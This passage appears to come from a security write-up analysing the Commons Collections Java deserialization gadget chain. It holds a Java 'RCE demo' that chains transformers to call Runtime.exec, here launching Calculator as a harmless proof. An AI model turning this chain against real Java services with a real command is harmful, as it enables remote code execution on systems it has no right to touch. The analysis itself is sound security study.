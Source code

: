 ![](Commons-Collections-反序列化利用链分析/image-20210212210310039.png)

RCE demo

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        DefaultedMap mapDemo = (DefaultedMap) DefaultedMap.decorate(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```
